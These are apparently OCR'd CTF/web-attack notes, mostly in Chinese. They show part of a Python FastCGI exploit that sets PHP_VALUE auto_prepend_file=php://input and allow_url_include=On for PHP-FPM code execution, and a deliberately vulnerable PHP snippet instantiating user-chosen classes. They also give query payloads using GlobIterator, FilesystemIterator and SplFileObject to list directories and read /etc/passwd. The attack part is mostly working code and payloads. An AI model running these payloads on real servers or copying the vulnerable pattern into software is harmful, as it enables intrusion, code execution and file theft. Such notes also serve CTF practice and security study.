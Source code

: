```python
        'SERVER_SOFTWARE': 'php/fcgiclient',
        'REMOTE_ADDR': '127.0.0.1',
        'REMOTE_PORT': '9985',
        'SERVER_ADDR': '127.0.0.1',
        'SERVER_PORT': '80',
        'SERVER_NAME': "localhost",
        'SERVER_PROTOCOL': 'HTTP/1.1',
        'CONTENT_TYPE': 'application/text',
        'CONTENT_LENGTH': "%d" % len(content),
        'PHP_VALUE': 'auto_prepend_file = php://input',
        'PHP_ADMIN_VALUE': 'allow_url_include = On'
    }
    response = client.request(params, content)
```

打redis


- 打redis
## php原生类利用
```php
<?php

highlight_file(__FILE__);
include('flag.php');
$sys = $_GET['sys'];
if (preg_match("|flag|", $xsx)) {
           die("flag is no here!");
} else {
    $xsx = $_GET['xsx'];
    echo new $sys($xsx);
```

- 读取目录下文件列表
`sys=GlobIterator&xsx=glob://f*`
`sys=FilesystemIterator&xsx=glob://f*`
```php
<?php
highlight_file(__FILE__);
$dir=new DirectoryIterator("../");
echo $dir;
```

- 读取文件内容
```php
<?php
highlight_file(__file__);
$context = new SplFileObject('/etc/passwd');
foreach($context as $f){
    echo($f);
}
```
只能读取第一行
`sys=SplFileObject&xsx=/etc/passwd`
